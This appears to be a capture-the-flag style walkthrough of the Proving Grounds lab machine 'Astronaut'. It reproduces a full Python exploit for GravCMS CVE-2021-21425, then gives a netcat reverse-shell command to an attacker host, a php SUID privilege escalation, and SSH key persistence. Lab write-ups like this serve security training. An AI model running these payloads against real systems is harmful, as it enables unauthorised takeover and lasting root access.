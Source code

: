 # Astronaut
### Proving Grounds Practice
### Linux Machine


Beginning with a typical service and version scan with nmap, we find that only ports 22 (ssh) and 80 (http) are open. Additionally we are informed that there is a directory listing available, notably grav-admin.


#### Nmap Results

```nmap-output

$ nmap 192.168.228.12 -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 17:05 EDT
Nmap scan report for 192.168.228.12
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)

80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
|-     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
```


Enumerating the website, we in fact find that there is a content management system in use, Grav-CMS.


![image](https://github.com/user-attachments/assets/0d45e3e0-b7ae-4582-9fb7-573951440855)


![image](https://github.com/user-attachments/assets/cc0904c2-185e-4a2b-a47d-6564ca5e889b)

A quick search for related exploits turns up an interesting find. 


#### GravCMS Unauthenticated Arbitrary YAML Write/Update leads to Code Execution (CVE-2021-21425)

```
https://github.com/CsEnox/CVE-2021-21425
```


#### Exploit

```python

#!/usr/bin/python

import requests
from bs4 import BeautifulSoup
from time import sleep
import urllib.parse
import argparse

parser = argparse.ArgumentParser(description='Grav Admin 1.7.10 RCE')
parser.add_argument('-c', help='Command', required=True)
parser.add_argument('-t', help='URL (Eg: http://grav.local)', required=True)
args = parser.parse_args()

url = args.t
cmd = args.c
cmd = urllib.parse.quote(cmd)

session = requests.Session()

# Getting Nonce
r = session.get(url+'/admin')
soup = BeautifulSoup(r.text, features="lxml")
a = str(soup.findAll('input')[3])
nonce = a[47:79]

# Creating File
print("[*] Creating File")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/usr/bin/echo&data[custom_jobs][vwlya][args]={cmd}&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=/tmp/shell.sh&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for file creation, wait one minute")
	sleep(60)

# Running File
print("[*] Running file")
payload = f'admin-nonce={nonce}&task=SaveDefault&data[custom_jobs][vwlya][command]=/bin/bash&data[custom_jobs][vwlya][args]=/tmp/shell.sh&data[custom_jobs][vwlya][at]=%2a%20%2a%20%2a%20%2a%20%2a&data[custom_jobs][vwlya][output]=&data[status][vwlya]=enabled&data[custom_jobs][vwlya][output_mode]=overwrite'
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
r = session.post(url+'/admin/config/scheduler',data=payload,headers=headers)

if "Invalid Security Token" in r.text:
	exit("Exploit failed :(")
else:
	print("Scheduled task created for command, wait one minute")
	sleep(60)

print("Exploit completed")
```

Setting our listener to port 4444. Then sending the exploit command.

![image](https://github.com/user-attachments/assets/ada695c3-222f-427f-961f-c7dee3ccdf58)

#### Command Line

```
python3 exploit.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.21.153 4444 >/tmp/f' -t http://192.168.207.12/grav-admin
```

We get a reverse shell, as www-data.


![image](https://github.com/user-attachments/assets/14e3bca3-8656-4e09-b26a-48b350817cb6)


#### Stabilize Shell

```
export TERM=xterm;python3 -c 'import pty;pty.spawn("/bin/bash")'
```


![image](https://github.com/user-attachments/assets/bb1e2a10-7faf-40fb-abd8-7ddfbf7a2f10)

We cannot check for sudo rights on www-data because we don't have the password. But we can search for binaries that may have the SUID bit set.

#### SUID Hunting

```
find / -perm -u=s 2>/dev/null
```


![image](https://github.com/user-attachments/assets/71cc304e-6c4b-4679-88a9-609b05ad1bba)

Checking out the findings on GTFOBins php seems to be a great candidate for Privilege Escalation.

#### Escalate Privileges

```shell
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```


![image](https://github.com/user-attachments/assets/4bcce87e-17d0-4de1-9c29-1a4e3eed8e1a)

Now that we have root access, we can submit the proof of pwnage. Additionally we can have persistence on the machine by adding our public key to the authorized_keys file.

#### Persistence via SSH

```
cd /root/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTNoNoNoB5vEuE2CVK/0/xPnhxWfBWGj" >> authorized_keys
```
